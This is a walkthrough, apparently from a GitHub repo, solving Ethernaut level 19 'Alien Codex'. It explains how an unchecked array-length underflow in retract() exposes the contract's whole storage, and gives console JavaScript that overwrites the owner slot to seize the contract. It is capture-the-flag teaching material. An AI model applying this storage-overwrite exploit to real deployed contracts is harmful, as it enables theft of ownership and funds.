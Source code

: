 # Level 19: Alien Codex

This is the level 19 of OpenZeppelin [Ethernaut](https://ethernaut.openzeppelin.com/) web3/solidity based game.

## Pre-requisites

- Contract [storage mechanism](https://programtheblockchain.com/posts/2018/03/09/understanding-ethereum-smart-contract-storage/) for dynamically sized arrays
- Integer [overflow/underflow](https://docs.soliditylang.org/en/v0.6.0/security-considerations.html#two-s-complement-underflows-overflows) in Solidity
- [Storage slot assignment in contract on inheritance](https://ethereum.stackexchange.com/questions/63403/in-solidity-how-does-the-slot-assignation-work-for-storage-variables-when-there)

## Hack

Given contract:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import '../helpers/Ownable-05.sol';

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }
  
  function make_contact() public {
    contact = true;
  }

  function record(bytes32 _content) contacted public {
  	codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
```

`player` has to claim ownership of `AlienCodex`.

The target `AlienCodex` implements ownership pattern so it must have a `owner` state variable of `address` type, which can also be confirmed upon inspecting ABI (`contract.abi`). Moreover, the 20 byte `owner` is stored at slot 0 (as well as 1 byte bool `contact`).

Before we start, note that every contract on Ethereum has storage like an array of 2<sup>256</sup> (indexing from 0 to 2<sup>256</sup> - 1) slots of 32 byte each.

The vulnerability of `AlienCodex` originates from the `retract` method which sets a new array length without checking a potential underflow. Initially, `codex.length` is zero. Upon invoking `retract` method once, 1 is subtracted from zero, causing an underflow. Consequently, `codex.length` becomes 2<sup>256</sup> which is exactly equal to total storage capacity of the contract! That means any storage slot of the contract can now be written by changing the value at proper index of `codex`! This is possible because EVM doesn't validate an array's ABI-encoded length against its actual payload.

First call `make_contact` so that we can pass check - `contacted`, on other methods:
```javascript
await contract.make_contact()
```

Modify `codex` length to 2<sup>256</sup> by invoking `retract`:
```javascript
await contract.retract()
```

Now, we have to calculate the index, `i` of `codex` which corresponds to slot 0 (where `owner` is stored).

Since, `codex` is dynamically sized only it's length is stored at next slot - slot 1. And it's location/position in storage, according to allocation rules, is determined by as `keccak256(slot)`:
```
p = keccak256(slot)
or, p = keccak256(1)
```

Hence, storage layout would look something like:
```
Slot        Data
------------------------------
0             owner address, contact bool
1             codex.length
    .
    .
    .
p             codex[0]
p + 1         codex[1]
    .
    .
2^256 - 2     codex[2^256 - 2 - p]
2^256 - 1     codex[2^256 - 1 - p]
0             codex[2^256 - p]  (overflow!)
```
Form above table it can be seen that slot 0 in storage corresponds to index, `i` = `2^256 - p` or `2^256 -  keccak256(1)` of `codex`!

So, writing to that index, `i` will change `owner` as well as `contact`.

You can go on write some Solidity to calculate `i` using `keccak256`, but it can also be done in console which I'm going to use.

Calculate position, `p` in storage of start of `codex` array
```javascript
// Position
p = web3.utils.keccak256(web3.eth.abi.encodeParameters(["uint256"], [1]))

// Output: 0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6
```

Calculate the required index, `i`. Use `BigInt` for mathematical calculations between very large numbers.
```javascript
i = BigInt(2 ** 256) - BigInt(p)

// Output: 35707666377435648211887908874984608119992236509074197713628505308453184860938n
```

Now since value to be put must be 32 byte, pad the `player` address on left with `0`s to make a total of 32 byte. Don't forget to slice off `0x` prefix from player address!
```javascript
content = '0x' + '0'.repeat(24) + player.slice(2)

// Output: '0x000000000000000000000000<20-byte-player-address>'
```

Finally call revise to alter the storage slot:
```javascript
await contract.revise(i, content)
```

And we hijacked `AlienCodex`! Verify by:
```javascript
await contract.owner() === player

// Output: true
```

Done!

_Learned something awesome? Consider starring the [github repo](https://github.com/theNvN/ethernaut-openzeppelin-hacks)_ 😄

_and following me on twitter [here](https://twitter.com/heyNvN)_ 🙏
